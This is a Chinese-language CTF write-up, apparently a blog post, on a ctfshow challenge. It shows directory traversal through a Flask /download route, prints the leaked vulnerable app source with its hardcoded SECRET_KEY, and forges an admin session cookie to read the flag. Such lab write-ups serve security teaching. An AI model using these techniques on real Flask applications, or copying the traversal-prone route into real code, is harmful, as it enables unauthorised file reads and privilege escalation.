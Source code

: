 # 记一次Flask session伪造

双十一的时候，ctfshow搞了一个“菜狗杯”比赛，其中有道题印象比较深刻，在此记录一下。



**打开靶机，“抽老婆”可还行。**

![image-20221112174528318](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112174528318.png)

![image-20221112174544719](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112174544719.png)



**按照惯例，打开开发者工具查看网页源码**

![image-20221112174719548](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112174719548.png)

发现这个下载按钮请求了一个/download路由，并且url中的payload可控，第一反应就是存在目录穿越漏洞。

尝试构造payload读取敏感文件，试了一些，发现能读取/etc下的敏感文件，证实了目录穿越的存在。

在尝试直接读取flag文件时，页面提示：

![image-20221112183441901](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112183441901.png)

尝试读取其它文件，页面报错：

![image-20221112183630046](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112183630046.png)

查看有关代码发现，网站使用flask构建，并且过滤了url中的flag字符串：

![image-20221112183756352](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112183756352.png)

注意到这里的主程序是/app/app.py，由于存在目录穿越，于是尝试直接读取app.py：

![image-20221112183950839](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112183950839.png)

成功拿到源文件：

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)
```



分析源代码，发现了一个隐藏的路由：/secret_path_U_never_know，这里对session进行了校验，只有当session的值为"isadmin"并且签名正确时，才能访问到flag。

于是想到flask的session伪造。



将源代码中关于session的部分进行修改：

- 将session['isadmin']的值改为True
- 将session['current_wifi']的值改为在线容器能访问到的文件路径
- 将当前方法的返回值修改为任意字符串，防止报错

```python
@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=True
    session['current_wifi']="59f900ed51ee7e92e4bec6ef1b8d6f5c.jpg"
    return "test"

```

修改完成后在本地启动，访问/getwifi，打开开发者工具获取正确的session：

![image-20221112185657196](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112185657196.png)

访问线上环境的/secret_path_U_never_know路由，将获得的session替换线上环境的session，刷新：

![image-20221112185855851](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20221112185855851.png)

成功拿到flag。
